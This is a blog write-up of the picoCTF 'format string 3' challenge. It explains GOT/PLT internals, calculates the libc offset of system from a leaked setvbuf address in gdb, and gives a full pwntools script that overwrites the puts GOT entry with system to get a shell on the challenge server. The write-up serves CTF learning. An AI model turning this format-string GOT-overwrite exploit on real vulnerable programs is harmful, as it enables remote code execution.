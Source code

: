 ```yaml
---
layout: post
title:  Overwriting entries in the Global Offset Table
categories: write-ups
excerpt: "Learning about overwriting GOT entries using the picoCTF format string 3 challenge."
---
```

<br>
<p>
<h2>Overwriting entries in the Global Offset Table using a vulnerable printf function</h2>
This write-up builds on what was learned about exploiting printf vulnerabilities in my write-up on the picoCTF <a href="/write-ups/2024/12/22/format-string-exploitation.html">format string 2</a> challenge. In the format string 3 challenge there is a similar vulnerability, but this time instead of overwriting a variable within the program it will be used to overwrite a pointer to an entry in the Global Offset Table so that it will call a different libc function.
</p>
<br>
<ol>
<a href="#format-string-3"><li>format string 3</li></a>
<a href="#got"><li>The GOT, PLT, and GOT.PLT</li></a>
<a href="#exploit"><li>The Final Exploit</li></a>
</ol>

<div id="format-string-3" class="section-link">
<h2>format string 3</h2>
<p>When the program is run, it prints a line which leaks the address of the GOT entry for the <b>setvbuf</b> function and then waits for input:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-1.png">
</p>
<p>
After supplying some input, it then prints two lines; one which repeats the input and another which prints <b>/bin/sh</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-2.png">
</p>
<p>
Here is the source code for this function:<br>
{% highlight ruby %}
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
	char *all_strings[MAX_STRINGS] = {NULL};
	char buf[1024] = {'\0'};

	setup();
	hello();	

	fgets(buf, 1024, stdin);	
	printf(buf);

	puts(normal_string);

	return 0;
}
{% endhighlight %}
</p>
<p>
Looking at the source, we can identify two goals. The main objective will be to overwrite the pointer to the <b>puts</b> function with a pointer to the <b>system</b> function so that instead of printing <b>/bin/sh</b>, the program will make a <b>system</b> call to <b>/bin/sh</b> instead, granting us a shell. To accomplish this, we will need to exploit the vulnerable printf function which repeats user input.
</p>
</div>

<div id="got" class="section-link">
<h2>The Global Offset Table</h2>
<p>My understanding of the GOT is that it is a copy of libc used by a program which is stored in a random memory location at runtime in order to prevent the type of attack we are performing here. But because we have access to the copy of libc being used and the location of <b>setvbuf</b> has been leaked, we are able to calculate offsets and find the memory locations of other functions within libc.<br><br>
Finding the locations of functions and calculating their offsets can all be accomplished using pwntools, but I wanted to know exactly what was going on under the hood, so I took a look at the libc file which was supplied with this challenge. First, I used the <b>readelf</b> function to find the location of <b>setvbuf</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-4.png">
</p>
<p>
Then, I found the location of <b>system</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-5.png">
</p>
<p>
Finally, I found the difference of the two, which is <b>2ac90</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-6.jpg">
</p>
<p>
To test this theory, I ran the program in gdb and set a breakpoint after the <b>setvbuf</b> leak:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-7.png">
</p>
<p>
Then I subtracted the <b>2ac90</b> offset from the leaked address and looked at the memory in that location:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-8.png">
</p>
<p>
Cool! We've found the location of the <b>system</b> call in memory! Now what points to the <b>puts</b> entry we want to replace?
</p>
<h2>The GOT, PLT, and GOT.PLT</h2>
<h3>GOT</h3>
<p>As previously mentioned, the Global Offset Table (GOT) is a copy of libc stored in a random location in memory. The location of these addresses must be found at runtime, which is why the setvbuf leak in this program is so valuable.
</p>
<h3>PLT</h3>
<p>The Procedure Linkage Table (PLT) is where libc functions are referenced locally in this program. In this example, <b>puts</b> is located at <b>0x401080</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/puts2.png">
</p>
<h3>GOT.PLT</h3>
<p>This is the middle-man where the libc functions which are called locally are linked to the GOT. Here we can see the <b>got.plt</b> entry by examining the instructions following the local call. Looking at the memory in this location you can see the GOT address for <b>puts</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-12.png">
</p>
<p>
Now all we need to do is overwrite this entry with the offset we calculated earlier (the address for <b>system</b> is different because this is a different instance from earlier):<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-13.png">
</p>
<p>
And after some bugginess, we have a shell!<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-14.png">
</p>
<p>
Entering an <b>ls</b> command shows the contents of the local directory where I was working:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-15.png">
</p>
<p>
I believe the errors in the above examples are from the breakpoints I set to examine memory. Unfortunately, because of the dynamic locations which are generated every time the program is run and the fact that the payload can not be crafted manually and sent to the program beforehand, a script must be used to complete this challenge. But at least we have a solid grasp of what is going on behind the scenes.
</p>
</div>

<div id="exploit" class="section-link">
<h2>Final Exploit</h2>
<p>I won't go over the breakdown of the printf vulnerability because I already covered that in my <a href="/write-ups/2024/12/22/format-string-exploitation.html">format string 2</a> write-up, but I used those methods to determine that our printf string is in location 38. Using all of the information we have so far, here is the script I used, adapted from Wiebe Willems's script <a href="https://blog.nviso.eu/2024/05/23/format-string-exploitation-a-hands-on-exploration-for-linux/">here</a>:<br>
{% highlight ruby %}
from pwn import *

libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

exe = ELF("./format-string-3") # these 3 lines set up for local execution
context.binary = exe
elf = context.binary = ELF('./format-string-3')

# p = process([exe.path]) # for local execution
p = remote("rhea.picoctf.net", 64162) # for remote execution
        

def main():

    info(p.recvline())              # receives howdy gamers line
    info(p.recvuntil("libc: "))     # receives until setvbuf address
    
    setvbuf_address = p.recvline()  # gets setvbuf address

    setvbuf_value = int(setvbuf_address.split(b"x")[1].strip(),16) # converts input to integer value for calculation

    libc.address = setvbuf_value - libc.symbols['setvbuf'] # calculate libc base address

    payload = fmtstr_payload(38, {elf.got['puts'] : libc.symbols['system']}) # format string payload; overwrites puts with system

    p.sendline(payload)
    p.clean()
    p.interactive() # gives program control back to user

if __name__ == "__main__":
    main()
{% endhighlight %}
</p>
</div>

<p>
After running this script we have a shell on the remote server and can just cat the flag.txt file!<br>
(I wasn't able to do this in the picoCTF webshell and had to use a Kali VM)<br><br>
I hope this was helpful. This challenge was a great way to learn about the Global Offset Table and also get some practice with gdb and pwntools. Reverse engineering and binary exploitation are the most fun things I have learned about so far on my cybersecurity journey!
</p>